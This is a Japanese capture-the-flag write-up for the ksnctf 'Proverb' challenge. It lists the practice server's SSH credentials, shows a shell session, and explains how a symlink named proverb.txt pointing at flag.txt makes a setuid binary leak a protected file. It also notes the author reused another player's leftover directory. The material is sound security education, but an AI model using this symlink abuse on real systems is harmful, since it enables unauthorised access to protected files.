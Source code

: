 # ksnctf: Proverb

**Category:** Misc  
**Points:** 70pt  
**Description:**  

> SSH: ctfq.sweetduet.info:10022  
> ID: q13  
> Pass: 8zvWx00MakSCQuGq

**Hint:**

>

## 解き方
問題のタイトルは「諺」．とりあえずsshで接続する．

```
$ ssh q13@ctfq.sweetduet.info -p 10022
q13@ctfq.sweetduet.info's password: 
Last login: Wed Dec  5 16:05:53 2018 from 10.0.2.2
[q13@localhost ~]$ ls -al
total 48
drwxr-xr-x   2 root root  4096 Jun  1  2012 .
drwxr-xr-x. 17 root root  4096 Oct  6  2014 ..
-rw-r--r--   1 root root    18 May 11  2012 .bash_logout
-rw-r--r--   1 root root   176 May 11  2012 .bash_profile
-rw-r--r--   1 root root   124 May 11  2012 .bashrc
-r--------  11 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x  12 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--   2 root root   755 Jun  1  2012 proverb.txt
-r--r--r--   1 root root   151 Jun  1  2012 readme.txt

[q13@localhost ~]$ file *
flag.txt:    regular file, no read permission
proverb:     setuid executable, regular file, no read permission
proverb.txt: ASCII English text
readme.txt:  ASCII English text

[q13@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.

[q13@localhost ~]$ cat proverb.txt 
All's well that ends well.
A good beginning makes a good ending.
Many a true word is spoken in jest.
Fear is often greater than the danger.
- 省略 -

[q13@localhost ~]$ ./proverb 
The die is cast.
[q13@localhost ~]$ ./proverb 
All's well that ends well.

[q13@localhost ~]$ cat flag.txt
cat: flag.txt: Permission denied
```

`proverb.txt`は諺のテーマパークで，`proberv`は`txt`を読み込んで端末上に諺を出力する，実行可能なファイルとわかった，当然`flag`は読み込み権限なし．`proberv`に引数として与えてみたが反応なし．

`/home/q13/proverb`を使って`/home/q13/flag.txt`を読み込みたい．

`readme`には作業ディレクトリが必要なら`/tmp`を使ってくれとのことだったので，`cp`か`ln`を試みるも既にファイルはあるよと言われた．

```
[q13@localhost ~]$ cp proverb /tmp/proverb
cp: `proverb' and `/tmp/proverb' are the same file
[q13@localhost ~]$ cd /tmp && cat proverb.txt
Please make your own subdirectory.
```

仕方なく指示通りサブディレクトリを作ろうとしたところ，

```
[q13@localhost tmp]$ mkdir test
mkdir: cannot create directory `test': File exists
[q13@localhost tmp]$ cat test
cat: test: Is a directory
[q13@localhost tmp]$ cd test
[q13@localhost test]$ ls -al
total 8
drwxrwxr-x   2 q13  q13  4096 Nov 26 19:43 .
drwxrwx-wt. 19 root root 4096 Dec  5 16:47 ..
lrwxrwxrwx   1 q13  q13    17 Nov 26 19:42 proverb -> /home/q13/proverb
lrwxrwxrwx   1 q13  q13    18 Nov 26 19:43 proverb.txt -> /home/q13/flag.txt
[q13@localhost test]$ ./proverb 
- 省略 -
```

名前を言ってはいけないディレクトリを引き当てたらしく，test環境と思しきディレクトリでflagを取得できてしまった．うーん，こういうのはちゃんと消してくれ...

おそらく正攻法は作ったサブディレクトリ上で`ln -s ~/flag.txt /tmp/hoge/proverb.txt`などとして`/home/q13/proverb`を実行するといった感じだろうか．

釈然としないので，この問題の背景は何かGoogle先生に聞いてみた．IPAに丁寧な解説があった．

[シンボリックリンクの悪用](https://www.ipa.go.jp/security/awareness/vendor/programmingv1/b07_01.html)

ちなみに，sshでアクセスしたユーザはq13である．今，`flag.txt`はq13aに所属しており，ファイルへの読み取りアクセス権はq13aとrootにある．しかし，`proverb`には`suid set`が付与されているので，任意のユーザがq13aと同じ特権でプログラムを実行できる．
q13にはproberbのコードを読む権限はないが，実行すると，現在のディレクトリにある `proverb.txt`の有無を確認して，ランダムに1行を選択しstdoutで端末に出力する．

`proverb.txt`の有無を確認する際，`proverb`は`proverb.txt`というファイル名だけを確認し，実体のあるファイルなのかシンボリックリンクなのかは気にしていないように思える．

故に，`/home/q13/flag.txt`を示す`proverb.txt`というシンボリックリンクを作成して，`proverb`を実行すると，`/home/q13/flag.txt`へリダイレクトされる．
`proverb`はq13aの権限として実行されているため，flag情報を読み取り，その結果を端末へ表示するものと推測できる．